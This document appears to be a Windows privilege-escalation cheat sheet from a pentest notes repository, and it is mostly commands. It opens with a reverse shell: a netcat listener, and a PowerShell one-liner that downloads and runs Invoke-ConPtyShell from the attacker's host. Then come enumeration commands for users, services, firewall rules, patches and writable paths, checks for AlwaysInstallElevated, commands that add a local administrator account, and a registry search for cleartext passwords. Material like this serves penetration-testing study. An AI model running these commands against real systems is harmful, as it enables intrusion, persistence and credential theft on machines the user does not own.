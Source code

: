 # Windows Privilege Escalation

## Upgrade Shell

[Fully interactive reverse shell on Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#fully-interactive-reverse-shell-on-windows)

Server Side

``` bash
stty raw -echo; (stty size; cat) | sudo nc -lvnp myport
```

Client Side

``` bash
powershell IEX(IWR http://myip/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell myip myport
```

File [Invoke-ConPtyShell.ps1](https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1)

## User Enumeration

Current User

``` bash
whoami
```

``` bash
net user <username>
```

``` bash
whoami /groups
```

Other Users

``` bash
net user
```

``` bash
net localgroup administrators
```

Folder

``` bash
dir
```

Hostname

``` bash
hostname
```

## OS Version & Architecture

What's the OS? What version? What architecture?

``` bash
systeminfo
```

``` bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

## Processes and Services

``` bash
tasklist /SVC
```

## Networking Enumeration

``` bash
ipconfig /all
```

``` bash
route print
```

Active network connection

``` bash
netstat -ano
```

## Firewall Status and Rules

``` bash
netsh advfirewall show currentprofile
```

``` bash
netsh advfirewall firewall show rule name=all
```

## Scheduled Tasks

``` bash
schtasks /query /fo LIST /v
```

``` bash
schtasks /query /fo LIST /v | findstr /B /C:"Task To Run" /C:"Next Run Time" /C:"Last Run Time" /C:"Schedule Type" /C:"Start Time" /C:"Start Date"
```

## Installed and Patch Levels

``` bash
wmic product get name, version, vendor
```

``` bash
dir "C:\Program Files"
```

``` bash
dir "C:\Program Files (x86)"
```

Patch Levels

``` bash
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

## Readable/Writable

``` bash
accesschk.exe -accepteula
```

``` bash
accesschk.exe -uws <user> "C:\Program Files"
```

Using powershell >>>

``` bash
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

``` bash
Get-ChildItem "C:\Users\windows_10_1903_x64\Desktop" -Recurse | Get-ACL | findstr /C:"<user-name>"
```

## Unmounted Disks

``` bash
mountvol
```

## Device Drivers & Kernel Modules

Using powershell >>>

``` bash
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
```

``` bash
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

## Binaries That AutoElevate

### AlwaysInstallElevated

``` bash
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

``` bash
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

``` bash
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

## Enumeration Tools

[windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)

``` bash
windows-privesc-check2.exe --help
```

[winPEASexe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries)

``` bash
winPEASx86.exe
```

## More Reference

[https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated)

### Add Local Admin User

``` bash
net user /add <user> <pass>
```

``` bash
net localgroup administrators <user> /add
```

### Run CMD as Admin

``` bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

### Clear text stored

``` bash
reg query HKLM /f pass /t REG_SZ /s
```
